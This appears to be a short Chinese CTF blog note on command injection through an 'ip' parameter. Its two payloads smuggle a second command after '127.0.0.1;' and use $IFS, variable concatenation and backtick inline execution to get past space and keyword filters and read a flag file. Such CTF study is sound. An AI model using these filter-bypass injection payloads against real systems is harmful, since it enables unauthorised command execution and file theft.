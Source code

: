 ```yaml
---
title: 变量拼接，内联执行
date: 2024-01-01 15:25:10
tags:
categories: ctf
---
```


### 用变量拼接：我们发现源码中有一个$a变量可以覆盖(用变量去拼)

```
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

### 内联执行的做法

```
?ip=127.0.0.1;cat$IFS$9`ls`
```

内联，就是将反引号内命令的输出作为输入执行
